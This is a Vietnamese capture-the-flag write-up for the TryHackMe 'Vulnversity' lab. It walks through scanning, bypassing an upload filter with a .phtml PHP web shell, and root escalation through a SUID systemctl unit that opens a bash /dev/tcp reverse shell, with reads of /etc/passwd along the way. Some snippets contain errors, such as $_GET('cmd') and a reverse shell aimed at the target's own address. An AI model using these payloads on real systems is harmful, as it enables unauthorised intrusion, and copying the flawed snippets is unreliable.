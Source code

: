 # Vulnversity

## 1. Deploy machine
-.- Ấn deploy là được mà bro
## 2. Reconnaissance
Thu thập thông tin về machine dùng công cụ network scanning `Nmap` 
![](img/2021-08-31-00-19-46.png)
```
nmap -sV -sC 10.10.46.196
```
Trong đó :
+ -sV: là xác định các service
+ -sC: chạy các script scan mặc định của nmap
+ -p-400: số port nmap quét
+ -n: không resolve ra dns

Từ đó trả lời các câu hỏi.
+ Scan the box, how many ports are open? : 6
+ What version of the squid proxy is running on the machine? 3.5.12
+ How many ports will nmap scan if the flag -p-400 was used? 400
+ Using the nmap flag -n what will it not resolve? DNS
+ What is the most likely operating system this machine is running? Ubuntu (Thấy các dịch vụ chạy của Ubuntu)
+ What port is the web server running on? : 3333. (Ta thấy có Apache httpd)

## 3. Locating directories using GoBuster
Sử dụng tool `gobuster` để tìm directory của các thư mục.
Trong kali linux thì sẽ có wordlist có sẵn ở thư mục : `/usr/share/wordlists/dirbs/common.txt` (tuy nhiên ở đây mình dùng ubuntu, tải wordlist tại: https://github.com/3ndG4me/KaliLists/tree/master/dirb )

Chạy command : 

```
gobuster dir -u http://10.10.46.196:3333 -w /usr/share/wordlists/dirbs/common.txt
```
Trong đó:
+ -u : target URL
+ -w : địa chỉ wordlist
![](img/2021-08-31-00-35-10.png)
=> kết quả là tìm được url : `/internal/` => truy cập được trang uploads file
## 4. Compromise the webserver
Sử dụng burpsuite community để bắt request và tìm ra extension có thể upload được file lên, mục đích là upload được file shell lên để RCE.

+ Truy cập trang : http://10.10.46.196:3333/internal
![](img/2021-08-31-00-38-55.png)
+ Ấn upload file và dừng ở POST request (intercept is on):
![](img/2021-08-31-00-40-27.png)
+ Chuột phải chọn : `Intruder` (Là trang mà ta có thể bruteforce để tìm ra extension phù hợp) => `Clear$` => bôi đen phần extension của file vừa up lên => `Add$`
![](img/2021-08-31-00-43-34.png)
+ Trang Payloads : thê những extension : `.php`, `.php2`, `.php3`. `.php5`, `.phtml`
![](img/2021-08-31-00-44-56.png)
+ Start attack:
![](img/2021-08-31-00-45-31.png)
Chú ý phần kết quả length của `phtml` khác so với phần còn lại (Do trả về chữ success nhỏ hơn chữ Extension not allowed) => có thể upload file `.phtml`

Bước 1 : chuẩn bị file hehe.phtml
```
<?php
    system($_GET('cmd'));
?>
```
Sau khi upload thành công, truy cập bằng đường dẫn :
```
http://10.10.46.196:3333/internal/uploads/hehe.phtml?cmd=cat /etc/passwd
```
Bước 2 : Thực ra phải tải file shell php của tryhackme gợi ý để có thể RCE bằng netcat
+ Tải file và sửa phần 'CHANGE THIS'
+ Sau đó dùng netcat để nghe trên port '1234':
```
nc -lvnp 1234
```
+ Truy cập vào đường dẫn `http://10.10.46.196:3333/internal/uploads/hehe.phtml` để kích hoạt shell.
+ Quay lại trên trình duyệt và gõ  `cat /etc/passwd`
## 5. Privilege Escalation
*Phần này là phần hay nhất :V*

Ngoài các quyền đặc biệt r, w, x còn có `special permission` đó là : SUID, SGID và sticky bits. Trong bài này dùng SUID.

SUID thường được sử dụng trên các file thực thi. Các file nào có bit `s` thì có thể thực hiện với quyền là chủ sở hữu của file đó.
Ví dụ: file sở hữu bởi root và được set SUID bit, thì bất kể ai thực thi file đó luôn chạy dưới quyền root.
+ Câu lệnh để tìm tất cả các file có SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta được kết quả:

![](img/2021-08-31-01-13-50.png)
+ Và thử :
```
passwd bill
or
passwd
```
Thì không được là do `whoami` đang là www-data, và passwd chỉ có thể dùng được khi bạn à root hoặc là chủ sở hữu của user đó.
=> `/bin/systemctl`

Source chưa các file có thể RCE : https://gtfobins.github.io/

Chạy lệnh ở máy host để lắng nghe ở port 4444:
```
nc -lvnp 4444
```
+ Tạo service chạy dưới systemd với tên `hehe.service`
```
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.46.196/4444 0>&1'
[Install]
WantedBy=multi-user.target
```
    + `/bin/bash -c` : thực thi shell
    + `bash -i >& /dev/tcp/10.10.46.196/4444 0>&1` : Reverse shell (trong reference)
+ Chạy lệnh
```
systemctl enable /tmp/hehe.service
systemctl start hehe.service
```
+ Quay lại máy host :D và :
```
cat /root/root.txt
```
![](img/2021-08-31-01-24-08.png)

Done

--- 
> Author : dangdh11

> Reference :
Reverse shell : https://www.netsparker.com/blog/web-security/understanding-reverse-shells/
https://hackersploit.org/netcat-tutorials/
https://vinasupport.com/systemd-la-gi-huong-dan-tao-va-quan-ly-systemd-services-tren-linux/
https://gtfobins.github.io/gtfobins/systemctl/
